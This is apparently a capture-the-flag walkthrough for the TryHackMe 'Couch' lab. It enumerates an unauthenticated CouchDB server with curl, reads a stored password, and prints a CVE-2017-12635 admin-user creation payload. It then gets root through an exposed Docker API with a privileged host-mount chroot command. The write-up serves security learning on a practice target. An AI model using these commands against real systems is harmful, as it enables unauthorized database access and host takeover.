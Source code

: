 ```bash
# PLATFORM          . THM
# CTF NAME          . Couch
# DESCRIPTION       . Hack into a vulnerable database server that collects and stores data in JSON-based document formats, in this semi-guided challenge.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/couch
```

```
sudo nmap -sSVC -T5 -Pn -p- 10.10.46.174 -oN couch 
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 349d390934304b3da71edfeba3b0e5aa (RSA)
|   256 a42eef3a845d211bb9d42613a52ddf19 (ECDSA)
|_  256 e16d4dfdc8008e86c2132dc7ad85139c (ED25519)

5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### PORT 5984 

 - Navigating to the webserver, we get the following answer

```
{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}
```

- With not too much information, I've decided to fuzz for directories.

```
ffuf -u http://10.10.46.174:5984/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 
```

```
secret                  [Status: 200, Size: 229, Words: 1, Lines: 2]
couch                   [Status: 200, Size: 228, Words: 1, Lines: 2]
_log                    [Status: 200, Size: 1000, Words: 139, Lines: 11]
```

- Okay. Navigating to any of the first two endpoints, we get a similar result

```
{"db_name":"secret","doc_count":1,"doc_del_count":0,"update_seq":2,"purge_seq":0,"compact_running":false,"disk_size":8287,"data_size":339,"instance_start_time":"1705796027027560","disk_format_version":6,"committed_update_seq":2}


{"db_name":"couch","doc_count":1,"doc_del_count":0,"update_seq":2,"purge_seq":0,"compact_running":false,"disk_size":8287,"data_size":316,"instance_start_time":"1705796909439680","disk_format_version":6,"committed_update_seq":2}
```

- The third endpoint outputs the last 11 log entries for the CouchDB service.

___

- I took a break to read about CouchDB and here's what I found.

- We can list the existing databases on the server using the following curl command (or by navigating to that endpoint):

```
curl -X GET http://10.10.46.174:5984/_all_dbs
```

```
["_replicator","_users","couch","secret","test_suite_db","test_suite_db2"]
```

- And we got back a list of databases. Obviously, I'm mostly curious about `secret`.

- We can list documents from within that database and read a document with the following commands

**** LIST DOCUMENTS

```
curl -X GET http://10.10.46.174:5984/secret/_all_docs
```

```
{"total_rows":1,"offset":0,"rows":[
{"id":"a1320dd69fb4570d0a3d26df4e000be7","key":"a1320dd69fb4570d0a3d26df4e000be7","value":{"rev":"2-57b28bd986d343cacd9cb3fca0b20c46"}}
]}
```

**** READ DOCUMENTS

```
curl -X GET http://10.10.46.174:5984/secret/a1320dd69fb4570d0a3d26df4e000be7
```

```
{"_id":"a1320dd69fb4570d0a3d26df4e000be7","_rev":"2-57b28bd986d343cacd9cb3fca0b20c46","passwordbackup":"atena:t{REDACTED}##"}
```

___ 

#### EXTRA

- Fauxton allows for visual representation of CouchDB and is installed on the server.
- Fauxton is available at `http://10.10.46.174:5984/_utils`

___

- Everyone is admin --- see bottom right corner. 
- Setup a local admin account so we have the `Signup` or `Login` options.

- This version of CouchDB is vulnerable to [CVE-2017-12635](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-12635) which allows us to add a custom admin user.

```
curl -X PUT -d '{"type":"user","name":"myusername","roles":["_admin"],"roles":[],"password":"mypassword"}' ip:5984/_users/org.couchdb.user:myusername -H "Content-Type:application/json"
```

- The following curl command would add the `myusername:mypassword` account with admin rights.

- This could've been used to bypass authentication (actually, we don't bypass it, but we don't need to know existing credentials --- You know what I mean) if `curl -X GET http://10.10.46.174:5984/_all_dbs` would've asked for credentials --- by responding with `401 unauthorised`.

- The format for that would be `curl -X GET http://myusername:mypassword@IP:5984/_all_dbs`. 

- But to see that the user was added, you can authenticate now using `myusername:mypassword`.

- Useless for this CTF, but good to know to get a better understanding of how CouchDB is working and potential vulnerabilities.

___
#### PORT 22

- The first flag is in `/home/atena/user.txt`.

- The user `atena` can't run anything as `sudo`.

- During enumeration, I decided to take a look in `/home/atena/.bash_history` file

- I found the following, no idea if this was the intented way of doing it. (probably not, it's the history since the couchDB was downloaded/configured on the server.)

```
{...}
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
{...}
```

- It seems we have a docker container running. This can be confirmed by the fact that `docker` command is available (however, we're not able to run docker commands).

- I've used the following command to access the container

```
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine chroot /mnt /bin/sh
```

- The last flag is in `/root/root.txt`.

- The intended way was to probably identify the custom port using netstat.

```
netstat -tulpn
```

```
...
tcp        0      0 localhost:2375          *:*                     LISTEN      -        
...
```

- Then, we could've used SSH to port-forward this.

```
ssh -L 1234:127.0.0.1:2375 atena@10.10.46.174
```

- This would make the whatever service (supposing we didn't knew yet it was a docker container) was running on `2375` available on our host at `127.0.0.1:1234`.

- Next, we could use `nmap` to get a footprint of the running service

```
PORT     STATE SERVICE VERSION
1234/tcp open  docker  Docker 18.09.7 (API 1.39)
| docker-version: 
|   ApiVersion: 1.39
|   Version: 18.09.7
|   GoVersion: go1.10.4
|   MinAPIVersion: 1.12
|   Platform: 
|     Name: 
|   Components: 
|     
|       Version: 18.09.7
|       Details: 
|         ApiVersion: 1.39
|         GoVersion: go1.10.4
|         Arch: amd64
|         GitCommit: 2d0083d
|         Os: linux
|         BuildTime: 2020-10-14T17:25:58.000000000+00:00
|         MinAPIVersion: 1.12
|         KernelVersion: 4.4.0-193-generic
|         Experimental: false
|       Name: Engine
|   KernelVersion: 4.4.0-193-generic
|   BuildTime: 2020-10-14T17:25:58.000000000+00:00
|   Arch: amd64
|   Os: linux
|_  GitCommit: 2d0083d
Service Info: OS: linux
```

- And then, we could use the same command as above.

```
pi@raspberry:~ $ docker -H 127.0.0.1:1234 run --rm -it --privileged --net=host -v /:/mnt alpine chroot /mnt /bin/sh
```